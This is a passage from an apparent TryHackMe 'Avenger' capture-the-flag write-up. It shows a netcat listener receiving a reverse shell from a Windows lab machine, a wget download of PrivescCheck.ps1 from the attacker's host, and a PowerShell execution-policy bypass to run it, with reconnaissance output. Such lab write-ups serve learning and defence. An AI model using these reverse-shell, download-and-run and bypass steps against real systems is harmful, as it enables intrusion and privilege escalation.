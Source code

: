![Untitled](Avenger/Untitled%207.png)

And with that I also got my reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Avenger]
└─$ nc -lvnp 443            
listening on [any] 443 ...
connect to [10.8.83.156] from (UNKNOWN) [10.10.124.144] 49800
Microsoft Windows [Version 10.0.17763.4499]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
gift\hugo

C:\Windows\system32>hostname
hostname
gift

C:\Windows\system32>
```
{: .nolineno}
{: .nolineno}

I tried to download the winpeas but can’t able to execute it because each time Antivirus detects it and then removed that file so I tried **PrivescCheck.ps1** file with powershell bypass command and it worked →

```bash
PS C:\Users\hugo\Documents> wget -usebasicparsing http://10.8.83.156:8000/PrivescCheck.ps1 -o PrivescCheck.ps1
wget -usebasicparsing http://10.8.83.156:8000/PrivescCheck.ps1 -o PrivescCheck.ps1
PS C:\Users\hugo\Documents>
```
{: .nolineno}
{: .nolineno}

Now I used this powershell bypass command to make it run →

```bash
PS C:\Users\hugo\Documents> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
????????????????????????????????????????????????????????????????
? CATEGORY ? TA0043 - Reconnaissance                           ?
? NAME     ? User identity                                     ?
????????????????????????????????????????????????????????????????
? Get information about the current user (name, domain name)   ?
? and its access token (SID, integrity level, authentication   ?
? ID).                                                         ?
????????????????????????????????????????????????????????????????
[*] Status: Informational

Name             : GIFT\hugo
SID              : S-1-5-21-1966530601-3185510712-10604624-1008
IntegrityLevel   : Medium Mandatory Level (S-1-16-8192)
SessionId        : 1
TokenId          : 00000000-00511eac
AuthenticationId : 00000000-0003f22a
OriginId         : 00000000-000003e7
ModifiedId       : 00000000-0003f238
Source           : User32 (00000000-0003f158)

...
...
```
{: .nolineno}